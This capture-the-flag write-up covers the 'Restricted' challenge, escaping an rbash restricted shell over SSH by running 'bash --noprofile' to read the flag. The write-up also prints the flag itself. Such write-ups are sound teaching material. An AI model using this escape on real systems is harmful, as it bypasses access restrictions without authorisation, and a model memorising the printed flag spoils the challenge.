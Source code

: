 # Cyber Apocalypse 2023

## Restricted

> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?
>
>  README Author: [D13David](https://github.com/D13David)
>
> [`misc_restricted.zip`](misc_restricted.zip)

Tags: _misc_

## Solution
When connecting to the container we get:
```bash
$ nc 139.59.173.68 30569
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
test
Invalid SSH identification string.
```

So what going on. Luckily we have the Dockerfile so let's have a look:
```Dockerfile
FROM debian:latest

RUN apt update -y && apt upgrade -y && apt install openssh-server procps -y

RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted
RUN sed -i -re 's/^restricted:[^:]+:/restricted::/' /etc/passwd /etc/shadow

RUN mkdir /home/restricted/.bin
RUN chown -R restricted:restricted /home/restricted

RUN ln -s /usr/bin/top /home/restricted/.bin
RUN ln -s /usr/bin/uptime /home/restricted/.bin
RUN ln -s /usr/bin/ssh /home/restricted/.bin

COPY src/sshd_config /etc/ssh/sshd_config
COPY src/flag.txt /flag.txt
COPY src/bash_profile /home/restricted/.bash_profile

RUN chown root:root /home/restricted/.bash_profile
RUN chmod 755 /home/restricted/.bash_profile
RUN chmod 755 /flag.txt

RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

RUN ssh-keygen -A
RUN mkdir -p /run/sshd

EXPOSE 1337

ENTRYPOINT ["/usr/sbin/sshd", "-D", "-o", "ListenAddress=0.0.0.0", "-p", "1337"]
```

It's basically providing us with a restricted shell (rbash) but we also have a user `restricted` that can login without password.

```bash
$ ssh restricted@139.59.173.68 -p 30569
The authenticity of host '[139.59.173.68]:30569 ([139.59.173.68]:30569)' can't be established.
ED25519 key fingerprint is SHA256:cAQBhvlkikmVEqxHI4pvLx+e6a/azX7qRP0kSv+2Wak.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:141: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[139.59.173.68]:30569' (ED25519) to the list of known hosts.
Linux ng-restricted-luc8q-6759695bd5-56q8j 5.18.0-0.deb11.4-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.16-1~bpo11+1 (2022-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$ ls
-rbash: ls: command not found
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$ pwd
/home/restricted
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$
```

So yes, we are in. But there is not much that can be done. We have a couple of basic commands but thats about it. One thing we can do is to start the remote shall without loading the rc profile to get the flag.

```bash
$ ssh restricted@139.59.173.68 -p 30569 -t "bash --noprofile"
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$ cd /
restricted@ng-restricted-luc8q-6759695bd5-56q8j:/$ ls
bin  boot  dev  etc  flag_8dpsy  home  lib  lib64  media  memories.dump  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
restricted@ng-restricted-luc8q-6759695bd5-56q8j:/$ cat flag_8dpsy
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```